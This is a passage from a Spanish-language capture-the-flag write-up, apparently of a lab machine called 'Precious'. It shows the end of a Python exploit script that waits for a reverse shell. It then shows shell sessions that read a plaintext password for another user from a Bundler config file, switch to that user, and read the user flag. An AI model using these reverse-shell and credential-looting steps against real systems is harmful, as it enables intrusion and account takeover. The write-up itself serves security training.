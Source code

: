 ```python
        sys.exit(1)

    try:
        proc = multiprocessing.Process(target=makeRequests, args=())
        proc.start()
    except Exception as e:
        log.error(str(e))
        cleanup()
        sys.exit(1)


    # Vamos a estar en escucha por el puerto y un tiempo de 20 seg - Con with, cerramos la conexion automaticamente por detrás
    with listen(lport, timeout=20) as shell:
        if shell.wait_for_connection():
            print()
            shell.interactive()

if __name__ == '__main__':

    main()

```

## Explotación de Vulnerabilidades

Nos movemos a `/home` y buscamos la ruta de la flag para el usuario, y a encontramos en el directorio personal del usuario henry, lo que quiere decir que debemos migrar a ese usuario para acceder.

### Information Leakage (User Pivoting)
Desde el directorio personal de `ruby` encontramos las credenciales de `henry` 

```bash
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$
```
{: .nolineno }

Migramos al usuario y encontramos la primera flag

```bash
ruby@precious:~/.bundle$ su henry
Password: 
henry@precious:/home/ruby/.bundle$ cd
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt 
henry@precious:~$
```
{: .nolineno }

